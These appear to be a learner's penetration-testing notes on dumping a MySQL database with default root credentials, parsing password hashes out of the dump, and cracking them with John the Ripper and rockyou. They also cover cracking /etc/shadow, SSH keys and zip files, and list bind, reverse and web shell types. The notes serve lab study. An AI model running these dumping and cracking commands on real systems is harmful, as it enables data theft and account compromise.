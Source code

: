     - Version, Name > default credentials search 
        - DVMA v2.3.3


### MySQL dumping
```bash
mysqldump -u root -p'' -P PORT -h IP DB TABLE
    : -p'' importatnt
mysqldump -u root -p'' -P PORT -h IP DB TABLE --where="username LIKE '%admin%'"


mysqldump -u root -p'root' -P 33060 -h 172.31.176.64 production > production.sql.dump
mysqldump -u root -p'root' -P 33060 -h 172.31.176.64 production users --where="username LIKE '%admin%'"> users.sql.dump 
```

#### parsing 
```bash
mysqldump -u root -p'root' -P 33060 -h 172.31.176.64 production users > users.sql.dump 

cat users.sql.dump | grep -i 'insert into' -A 26 | tr -d "'" | cut -d ',' -f 3 | tr -d ')' | tr -d ';' | tail -n 5 > mysql.hash
```

#### hash cracking

```
identifier >
john --wordlist=/usr/share/wordlists/rockyou.txt mysql.hash
```

- they guess hash type - I think LM hash, but it's possible md5,...,etc.
    - Raw-MD5
```
john --wordlist=/usr/share/wordlists/rockyou.txt mysql.hash --format=Raw-MD5

john --wordlist=/usr/share/wordlists/rockyou.txt mysql.hash --format=Raw-MD5 --pot=john.output
: output file clear
```

- John = a lot of cracking
    - /etc/passwd, /etc/shadow, unshadow > OS cracking
    - ssh2john : SSH private key(id_rsa) encrypted  by passphrase
    - zip2john : encrypted zip
    - MS office 
    - etc.

- alternative : hashcat



### Payload 
- What attck you want?

- type
    - bindshell : execute > 7777port listen binded (but server limited opened ports, 80 443 only)
    - revshell : execute > to attacker myself (you can connect whatever ports, firewall outbound not blocked )
    - webshell : execute commands via web, simple or complex
